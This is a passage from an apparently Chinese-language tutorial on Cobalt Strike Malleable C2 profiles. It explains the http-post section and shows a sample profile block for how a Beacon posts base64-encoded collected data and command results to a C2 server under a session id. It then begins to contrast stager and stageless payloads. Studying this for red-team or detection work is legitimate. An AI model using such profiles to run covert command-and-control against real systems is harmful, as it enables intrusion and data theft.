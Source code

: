 

### http-post

这部分配置信标发送到服务器的 HTTP POST 请求。信标使用 POST 请求来发送数据回 C2 服务器，例如搜集到的信息、命令执行结果等

与http-get不同的是，http-post多了个id参数，id部分定义了如何传输session id

session id是CS用来标识不同的beacon实例的唯一标识符。为了与C2服务器进行有效通信，每个Beacon必须在其请求中包含这个标识符，以便C2服务器可以识别和处理每个请求。例如，如果session id是1234，那么Beacon发送的POST请求uri会是`/submit.php?id=1234`。

下述代码定义了Cobalt Strike Beacon与C2服务器之间进行HTTP POST请求通信的规则

```apl
http-post {
    # 设置HTTP POST请求的URI
    set uri "/submit.php";

    client {
        # 设置HTTP请求的Content-Type
        header "Content-Type" "application/octet-stream";

        # 定义session id的传输方式，这里是添加到URL参数中
        id {
            parameter "id";
        }

        # 定义Beacon的数据输出方式，这里是编码为base64然后发送
        output {
			      base64;
            print;
        }
    }

    # 服务器响应部分
    server {
        # 设置HTTP响应的Content-Type
        header "Content-Type" "text/html";

        # 定义响应数据的处理方式，这里是解码（从base64格式）然后使用
        output {
			      base64;
            print;
        }
	}
}
```



### http-stager

C2与Beacon之间有两种通信方式：stager(分阶段)与stagerless(无阶段)。这两种类型的Payload的主要区别在于它们的大小，以及它们如何被传递和执行

- **stager：**Stager是一个小型的引导程序，其主要任务是连接到攻击者的服务器（或者某个中间节点），下载剩余的Payload（即Stage部分），然后执行它
- **stagerless：**这种Payload在被传递到目标系统时就已经完整，没有分为Stager和Stage两部分。一旦Payload到达目标系统，它就可以立即执行
